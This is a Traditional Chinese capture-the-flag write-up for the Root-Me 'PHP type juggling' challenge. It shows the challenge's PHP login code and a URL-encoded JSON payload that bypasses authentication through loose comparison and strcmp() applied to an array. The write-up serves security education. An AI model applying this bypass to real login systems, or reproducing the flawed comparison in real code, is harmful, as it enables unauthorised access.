 Root-Me [PHP type juggling](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)
===

二個 Input 分別為 `Login`、`Password`。

## 解題關鍵
1. PHP Code Review
2. Loose Comparison
3. Burp Suite

## 提示訊息
```
Get an access.
```

## 解題方法
這題直接看 `Source Code`，如下。

```php
<?php

// $FLAG, $USER and $PASSWORD_SHA256 in secret file
require("secret.php");

// show my source code
if(isset($_GET['source'])){
    show_source(__FILE__);
    die();
}

$return['status'] = 'Authentication failed!';
if (isset($_POST["auth"]))  { 
    // retrieve JSON data
    $auth = @json_decode($_POST['auth'], true);
    
    // check login and password (sha256)
    if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
        $return['status'] = "Access granted! The validation password is: $FLAG";
    }
}
print json_encode($return);
```

直接看重要的部分 `$_POST["auth"]` 是屬於使用者輸入，這時候就好奇了一下，原本不是兩個 Input 嗎? 怎麼只變成一個，在看一下前端，看樣子是有經過前處理，將 `password` 的參數值做 `sha256`。  

![](img/01.png)  

接著看到 `auth['data']['login'] == $USER`，注意這邊是個弱型別的判斷，隨後 `strcmp()` 函數特性上，只要引發錯誤就會 `return False`，可以餵陣列給他，並且有個 `!` 會幫忙轉成 `True`。  

基本上弱型別送個 `0` 就可以繞過了，至於 `strcmp()` 由於有做 `sha256` 的關係，就算送出陣列也會被當成字串 `Hash`，所以需要借助 `Brup Suite` 工具。  

![](img/02.png)  

由於送出請求之後，攔截到的 DATA 會 `URLencode`，所以需要解碼後才看得懂，如下。  

```
auth={"data":{"login":"0","password":"e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"}}
```

這部分有兩個地方需要變更，第一個是 `login` 的值，可以發現送出去的是 `"0"`，包覆在兩個雙引號中間，所以是字串型態，變更為 `0`，另一個部分是 `password`，為了讓 `strcmp()` 發生錯誤，所以要遞送一個空陣列 `[]`，編輯完成後，記得重新 `URLencode`，完整 Payload 如下，解決該題。

```
auth=%7B%22data%22%3A%7B%22login%22%3A0%2C%22password%22%3A%5B%5D%7D%7D
```

![](img/03.png)  

## Reference
https://www.cnblogs.com/Mrsm1th/p/6745532.html

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)